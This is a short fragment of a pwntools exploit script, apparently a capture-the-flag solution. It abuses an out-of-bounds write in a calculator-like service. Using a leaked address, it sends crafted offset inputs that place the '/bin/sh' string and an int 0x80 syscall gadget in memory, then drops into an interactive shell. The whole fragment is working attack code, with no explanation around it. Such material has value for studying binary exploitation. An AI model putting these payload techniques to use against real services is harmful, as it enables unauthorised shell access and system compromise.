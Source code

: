 ```

leak_binsh_bytes = str(0xffffffff-leak_binsh+134676945).encode('utf-8')
payload = b"+366-" + leak_binsh_bytes
p.sendline(payload)
print(payload)
#form(b"+367", int_0x80, leak_367)
# Convert integers to bytes
leak_binsh_bytes = str(0xffffffff-leak_binsh+134676945).encode('utf-8')
int_0x80_bytes = str(int_0x80).encode('utf-8')

# Concatenate byte strings
payload = b"+367-" + leak_binsh_bytes + b"+" + int_0x80_bytes

p.sendline(payload)
#form(b"+368", 0x6e69622f, leak_368)
payload = b"+368+1717880846"
p.sendline(payload)
#form(b"+369", 0x68732f, leak_369)
payload = b"+369-1711035615"

p.sendline(payload)
p.interactive()

```


